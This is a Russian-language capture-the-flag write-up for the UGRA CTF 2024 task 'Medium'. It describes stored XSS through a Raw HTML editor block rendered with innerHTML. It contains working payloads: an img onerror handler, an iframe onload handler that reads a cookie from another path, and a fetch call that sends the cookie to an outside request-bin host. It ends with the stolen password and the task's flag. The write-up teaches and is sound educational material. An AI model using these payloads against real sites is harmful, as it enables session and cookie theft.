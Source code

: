 # Medium: Write-up

Заходим на сайт и видим одну статью с разбором задания **Secure Vault**. Разбор выглядит как что-то, нагенерированное ChatGPT:

![Разбор](writeup/writeup-top.png)

В условии задания Medium сказано, что его флаг уже использовался ранее; по-видимому, нужно просто заслать флаг от Secure Vault.

К сожалению, сделать это сложно, потому что в какой-то момент разбор обрывается так:

![🔒 Продолжение статьи доступно только по платной подписке. Свяжитесь с автором для получения доступа.](writeup/locked.png)

Получается, нужно как-то обойти проверку на подписку.

Чтобы понять, как эта проверка реализована, создадим свою статью с платной подпиской.

![Статья](writeup/article-owner.png)

Снизу справа есть две кнопки, генерирующие:

- Публичную ссылку: https://medium.s.2024.ugractf.ru/jmasxqhy8z3072h1/mkk4e2kAK9NiguilVSG3gw/
- Приватную ссылку: https://medium.s.2024.ugractf.ru/jmasxqhy8z3072h1/mkk4e2kAK9NiguilVSG3gw/?password=olBIamGoMJoDTyQFkTSyHg

Публичная ссылка в точности совпадает с той, по которой мы создаем или редактируем статью. При этом сайт должен как-то понимать, кто его открывает, потому что при открытии этой ссылки в режиме инкогнито получаем следующее:

![Статья](writeup/article-public.png)

Поищем куки:

![Cookies](writeup/cookie.png)

Если создать еще одну статью, сервер создаст еще одну куку `password` с другим значением и другим параметром `path`. Получается, у каждой статьи есть свой пароль, позволяющий ее редактировать, и сервер сравнивает с ним переданную куку `password`. Поскольку у каждой куки `password` свой параметр `path`, при открытии статьи на сервер передается только пароль к этой статье.

Пароль в куках не совпадает с паролем в приватной ссылке. Действительно, если открыть приватную ссылку в режиме инкогнито, то произойдет установка куки и переадресация, и мы увидим следующую картину:

![Статья](writeup/article-private.png)

В условии сказано, что нас просят выложить анекдоты, а владелец сайта, по-видимому, их прочитает. Итак, наша задача — каким-то образом вытащить куку `password` от страницы с разбором, когда автор (или кто-то ещё, у кого есть приватная ссылка на статью с разбором) зайдёт почитать наши анекдоты.

В коде страницы видим:

```javascript
class PatchedRawTool extends RawTool {
	render() {
		const wrapper = super.render();
		if (this.readOnly) {
			const div = document.createElement("div");
			div.innerHTML = this.data.html;
			wrapper.appendChild(div);
			this.textarea.hidden = true;
		} else {
			this.textarea.addEventListener("keydown", e => {
				// Make backspace work correctly
				if (e.key === "Backspace") {
					e.stopPropagation();
				}
			})
		}
		return wrapper;
	}
}
```

Получается, для запуска JavaScript-кода на своей странице можно воспользоваться контейнером «Raw HTML» в редакторе. При открытии страницы без прав редактирования (то есть по публичной или приватной ссылке) HTML вставится через тег `innerHTML`.

Попробуем написать простейший эксплоит:

![Эксплоит](writeup/exploit1-owner.png)

Откроем в режиме инкогнито, и...

![Эксплоит](writeup/exploit1-public.png)

Ничего не произошло! При этом в DevTools видим, что тег `<script>` вставился:

![DevTools](writeup/exploit1-devtools.png)

Почему же код не исполнился? Ответ можно найти, например, [на StackOverflow](https://stackoverflow.com/questions/1197575/can-scripts-be-inserted-with-innerhtml). Содержимое тегов `<script>` не исполняется, если тег был вставлен через `innerHTML`. В ответах можно найти способ тем не менее добиться XSS через тег `<img>`:

```html
<img src="x" onerror="alert(1);">
```

Такой эксплоит уже срабатывает:

![Эксплоит](writeup/exploit2-owner.png)

![Эксплоит](writeup/exploit2-public.png)

Теперь нужно придумать, как вытащить куку с другим значением `path`. Ответ на этот вопрос тоже находится [на StackOverflow](https://stackoverflow.com/questions/945862/retrieve-a-cookie-from-a-different-path). Предлагается создать тег `<iframe>` с `src`, ссылающимся на другую страницу. Заодно можно и воспользоваться обработчиком `onload` у `<iframe>`.

```html
<iframe src="https://medium.s.2024.ugractf.ru/jmasxqhy8z3072h1/y4urwkEjcLxvz9WB/" onload="alert(this.contentDocument.cookie);">
```

При локальном запуске видим пустой `alert`, что, в общем-то, разумно. У автора при этом должны отобразиться куки.

Осталось понять, как передать эти куки себе. Для этого можно воспользоваться любым онлайн-сервисом, который позволяет принимать HTTP-запросы и логировать их. Например, [pipedream.com](https://pipedream.com/requestbin/):

![pipedream](writeup/pipedream1.png)

При открытии страницы по ссылке приходит событие:

![pipedream](writeup/pipedream2.png)

Настроим эксплоит так, чтобы он автоматически присылал на эту ссылку куки:

```html
<iframe src="https://medium.s.2024.ugractf.ru/jmasxqhy8z3072h1/y4urwkEjcLxvz9WB/" onload="fetch(`https://eohtssrnoxidmb8.m.pipedream.net/?${this.contentDocument.cookie}`);">
```

Осталось попробовать самим и подождать, пока на страницу зайдёт админ:

![pipedream](writeup/pipedream3.png)

Установим эту куку себе, самостоятельно сконструировав URL: https://medium.s.2024.ugractf.ru/jmasxqhy8z3072h1/y4urwkEjcLxvz9WB/?password=kLUMhULhczGL4hkx

Вот и флаг:

![Разбор](writeup/writeup-top.png)

Флаг: **ugra_secure_vault_unlocked_0mbs0t30i787**
